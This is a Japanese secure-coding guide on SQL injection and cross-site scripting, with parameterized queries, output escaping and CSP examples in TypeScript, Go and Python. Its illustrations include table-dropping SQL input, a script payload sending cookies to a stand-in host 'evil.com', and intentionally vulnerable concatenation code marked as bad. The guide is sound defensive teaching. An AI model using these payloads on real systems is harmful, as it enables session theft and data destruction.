





# SQLインジェクションとXSS（SQL Injection & Cross-Site Scripting）

> **一言で言うと:** SQLインジェクションは「ユーザー入力がSQLとして解釈される」攻撃、XSSは「ユーザー入力がHTMLやJavaScriptとして解釈される」攻撃。どちらも**信頼できないデータが実行可能なコードとして解釈される**という同じ構造的原因を持ち、防御の基本もどちらも「データとコードの混同を構造的に防ぐ」こと。

## インジェクション攻撃の本質

SQLインジェクションとXSSは一見別の攻撃だが、根本構造は同一。



| 観点 | SQLインジェクション | XSS |
|------|-------------------|-----|
| 攻撃先 | データベース（サーバーサイド） | ブラウザ（クライアントサイド） |
| 入力が解釈される言語 | SQL | HTML / JavaScript |
| 被害者 | サービス提供者（データ漏洩・改ざん） | 他のユーザー（セッション窃取・フィッシング） |
| 根本原因 | 文字列結合でSQLを組み立てる | ユーザー入力をエスケープせずにHTMLに埋め込む |
| 構造的防御 | プリペアドステートメント | 出力時エスケープ + CSP |
| バリデーションの役割 | 補助的（許可リストで入力を制限） | 補助的（入力の形式を制限） |

## SQLインジェクション

### 攻撃の仕組み

ユーザー入力を文字列結合でSQL文に埋め込むと、入力に含まれるSQL構文がクエリの一部として解釈される。

```
正常な入力: alice
生成されるSQL: SELECT * FROM users WHERE name = 'alice'
→ 意図通りに動作

悪意ある入力: ' OR '1'='1
生成されるSQL: SELECT * FROM users WHERE name = '' OR '1'='1'
→ 全ユーザーのデータが返される（WHERE句が常にTRUE）

さらに危険な入力: '; DROP TABLE users; --
生成されるSQL: SELECT * FROM users WHERE name = ''; DROP TABLE users; --'
→ usersテーブルが削除される
```



### 防御: プリペアドステートメント

プリペアドステートメント（パラメタライズドクエリ）は、SQL構文とデータを**構造的に分離**する。データ部分は常に「値」として扱われ、SQL構文として解釈されることがない。



#### TypeScript（Node.js + pg）

```typescript
import pg from 'pg';
const pool = new pg.Pool({ connectionString: 'postgresql://localhost/mydb' });

// ❌ 脆弱: 文字列結合
async function unsafeGetUser(name: string) {
  const result = await pool.query(
    `SELECT * FROM users WHERE name = '${name}'` // 入力がSQL構文に混入
  );
  return result.rows;
}

// ✅ 安全: プリペアドステートメント
async function safeGetUser(name: string) {
  const result = await pool.query(
    'SELECT * FROM users WHERE name = $1', // $1 はプレースホルダ
    [name]                                  // 値として束縛される
  );
  return result.rows;
}

// ✅ 安全: ORMの使用（Prisma）
// const user = await prisma.user.findMany({ where: { name } });
// ORMは内部でプリペアドステートメントを使用
```

#### Go（database/sql）

```go
package main

import (
	"database/sql"
	"fmt"

	_ "github.com/lib/pq"
)

func main() {
	db, _ := sql.Open("postgres", "postgresql://localhost/mydb?sslmode=disable")
	defer db.Close()

	name := "alice"

	// ❌ 脆弱: 文字列結合
	// row := db.QueryRow(fmt.Sprintf("SELECT id FROM users WHERE name = '%s'", name))

	// ✅ 安全: プリペアドステートメント
	var id int
	err := db.QueryRow("SELECT id FROM users WHERE name = $1", name).Scan(&id)
	if err != nil {
		fmt.Println("not found:", err)
		return
	}
	fmt.Println("user id:", id)
}
```

#### Python（psycopg2）

```python
import psycopg2

conn = psycopg2.connect("dbname=mydb")
cur = conn.cursor()

name = "alice"

# ❌ 脆弱: f-string / format
# cur.execute(f"SELECT * FROM users WHERE name = '{name}'")

# ✅ 安全: パラメタライズドクエリ
cur.execute("SELECT * FROM users WHERE name = %s", (name,))
rows = cur.fetchall()

# ✅ 安全: ORMの使用（SQLAlchemy）
# session.query(User).filter(User.name == name).all()
```

### IN句やLIKE句のパラメータ化

プリペアドステートメントが使いにくいと感じる場面でも、文字列結合に逃げてはいけない。

```typescript
// IN句 — PostgreSQLの場合
const ids = [1, 2, 3];
const result = await pool.query(
  'SELECT * FROM users WHERE id = ANY($1::int[])',
  [ids]
);

// LIKE句 — ワイルドカードをアプリ側で組み立て、値として渡す
const searchTerm = 'ali';
const result2 = await pool.query(
  'SELECT * FROM users WHERE name LIKE $1',
  [`%${searchTerm}%`] // ワイルドカードはアプリで付加し、全体を値として渡す
);
```

## XSS（クロスサイトスクリプティング）

### 攻撃の仕組み

ユーザー入力をエスケープせずにHTMLに埋め込むと、入力に含まれるHTML/JavaScriptがブラウザで実行される。

```
正常な入力: 山田太郎
生成されるHTML: <p>山田太郎</p>
→ 意図通りに表示

悪意ある入力: <script>document.location='https://evil.com/steal?c='+document.cookie</script>
生成されるHTML: <p><script>document.location='https://evil.com/steal?c='+document.cookie</script></p>
→ 他のユーザーのCookieが攻撃者に送信される
```

### XSSの3類型



| 類型 | 攻撃コードの格納先 | 影響範囲 | 危険度 |
|------|------------------|---------|--------|
| Stored XSS | DB（永続） | ページを閲覧した全ユーザー | 最も高い |
| Reflected XSS | URL（一時的） | 悪意あるリンクをクリックしたユーザー | 中 |
| DOM-based XSS | クライアントJSのみ | 悪意あるリンクをクリックしたユーザー | 中 |

### 防御: 出力時エスケープ + CSP

XSSの構造的防御は**出力時のコンテキスト別エスケープ**。[[バリデーションとサニタイズとエスケープ|バリデーション・サニタイズは補助的防御]]にすぎない。

#### テンプレートエンジンの自動エスケープ（第一の防御線）

```typescript
// Express + EJS
// <%= %> はHTMLエスケープされる（安全）
// <p><%= userInput %></p>
// userInput = '<script>alert(1)</script>'
// → <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>

// <%- %> はエスケープされない（危険 — サニタイズ済みHTMLのみ使用）
// <p><%- sanitizedHtml %></p>
```

```go
// Go html/template — デフォルトでHTMLエスケープ
package main

import (
	"html/template"
	"os"
)

func main() {
	tmpl := template.Must(template.New("page").Parse(
		`<p>{{.Name}}</p>`))

	data := struct{ Name string }{Name: `<script>alert(1)</script>`}
	tmpl.Execute(os.Stdout, data)
	// 出力: <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
}
```

```python
# Jinja2（Flask / FastAPI）— autoescape=Trueがデフォルト
# {{ user_input }}  → HTMLエスケープ済み
# {{ user_input | safe }}  → エスケープなし（サニタイズ済みのみ使用）
```

#### CSP（Content Security Policy）— 第二の防御線

CSPはブラウザに対して「どのソースのスクリプトを実行してよいか」をHTTPヘッダで指示する。エスケープが漏れた場合でもインラインスクリプトの実行をブロックできる。

```
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

```typescript
// Express でCSPヘッダを設定
import helmet from 'helmet';

app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'"],          // インラインスクリプトを禁止
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", "data:"],
  },
}));
```

### React / Vueでの注意点

ReactやVueはデフォルトでJSXの値をエスケープするため、基本的にXSS安全。ただし以下のAPIは例外。

```typescript
// React — dangerouslySetInnerHTMLはエスケープを回避する
// ❌ 危険: サニタイズされていない入力
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// ✅ 安全: サニタイズ済みHTMLのみ使用
import DOMPurify from 'dompurify';
<div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(userInput) }} />

// ❌ 危険: href属性にjavascript:スキームが入る可能性
<a href={userInput}>Link</a>
// userInput = "javascript:alert(1)" → クリックでスクリプト実行

// ✅ 安全: プロトコルを検証
const safeHref = /^https?:\/\//.test(userInput) ? userInput : '#';
<a href={safeHref}>Link</a>
```

## バリデーションの役割 — 第一の防御線だが十分条件ではない

バリデーションはインジェクション攻撃に対して**入力の門で攻撃の大部分を弾く**役割を持つ。ただし、バリデーションだけでは防御が不完全な理由がある。



| 防御層 | SQLi | XSS |
|--------|------|-----|
| バリデーション（許可リスト） | 補助 — 英数字のみ許可すれば多くの攻撃を弾ける | 補助 — 形式制限で攻撃を弾ける |
| プリペアドステートメント | **構造的防御** — データとコードを分離 | 関係なし |
| 出力時エスケープ | 関係なし | **構造的防御** — HTMLとデータを分離 |
| CSP | 関係なし | 追加防御 — インラインスクリプト実行を制限 |
| サニタイズ | 非推奨 — 手動エスケープは漏れる | 補助 — リッチテキスト入力時に使用 |

**なぜバリデーションだけでは不十分か:** 名前フィールドに `O'Brien` のようなアポストロフィを含む正当な入力を許可する必要がある場合、バリデーションでシングルクォートを禁止できない。プリペアドステートメントなら `O'Brien` をそのまま安全に扱える。

## よくある落とし穴

### 1. ORMを使っていれば安全、と思い込む

ORMの通常のAPIはプリペアドステートメントを使用するため安全だが、生SQL（raw query）を書く機能もある。生SQLで文字列結合するとORM利用でもSQLインジェクションが発生する。

```typescript
// Prisma — 通常のAPIは安全
await prisma.user.findMany({ where: { name } });

// ❌ Prisma.raw で文字列結合すると脆弱
await prisma.$queryRawUnsafe(`SELECT * FROM users WHERE name = '${name}'`);

// ✅ Prisma.raw でもパラメータを使えば安全
await prisma.$queryRaw`SELECT * FROM users WHERE name = ${name}`;
```

### 2. HTTPOnly Cookieを設定していない

XSSが成功した場合、`document.cookie` でセッションCookieが窃取される。`HttpOnly` フラグを付けるとJavaScriptからCookieにアクセスできなくなり、被害を限定できる。ただしこれはXSSの防御ではなく被害軽減策。

### 3. JSONレスポンスならXSSは起きない、と思い込む

APIが `Content-Type: application/json` を返しても、古いブラウザやMIMEスニッフィングにより、HTMLとして解釈されるケースがある。`X-Content-Type-Options: nosniff` ヘッダを必ず設定する。

### 4. URLパラメータのバリデーション漏れ

`/users/:id` の `:id` にSQLインジェクションを仕込む攻撃がある。パスパラメータやクエリパラメータも入力として扱い、型チェック（整数であること等）を行う。

### 5. 二次SQLインジェクション（Second-Order SQLi）

一度安全にDBに保存されたデータを、別のクエリで文字列結合に使用すると発生する。DBから読み出したデータも「外部入力」として扱い、常にプリペアドステートメントを使用する。

```
① ユーザー名として "admin'--" を登録（プリペアドステートメントで安全に保存）
② 別の処理で保存済みユーザー名を文字列結合でSQLに使用
   → SQLインジェクション発生
```

## AIによる実装のアンチパターン

| アンチパターン | なぜ問題か | 対策 |
|---|---|---|
| テンプレートリテラルでSQLを構築 | バッククォート内でも `${variable}` は文字列結合と同じ | プリペアドステートメントのプレースホルダを使用 |
| `innerHTML` でユーザー入力を描画 | エスケープが行われず直接XSSになる | `textContent` を使うか、フレームワークのバインディングを使用 |
| XSS対策としてフロントでサニタイズ | 攻撃者はフロントをバイパスしてAPIを直接叩く | サーバーサイドで出力時エスケープ |
| CSPだけに依存してエスケープを省略 | CSPは追加防御であり、設定ミスで無効になりうる | エスケープが主防御、CSPは多層防御の一層 |

## 関連トピック

- [[バリデーション]] — 親トピック。入力検証によるインジェクション攻撃の第一防御線
- [[バリデーションとサニタイズとエスケープ]] — バリデーション・サニタイズ・エスケープの使い分け
- [[CORS]] — 同一オリジンポリシーとXSSの関係。CORSはXSSを直接防がないが、攻撃の影響範囲に関わる
- [[HTTP-HTTPS]] — HTTPヘッダ（CSP、X-Content-Type-Options）による追加防御
- [[セッションとJWT]] — XSSによるセッション窃取とその対策（HttpOnly Cookie）

## 参考リソース

- OWASP SQL Injection Prevention Cheat Sheet — SQLインジェクション防御の網羅的ガイド
- OWASP XSS Prevention Cheat Sheet — コンテキスト別XSS防御の実践ガイド
- PortSwigger Web Security Academy — SQLi / XSS のハンズオン学習環境（無料）
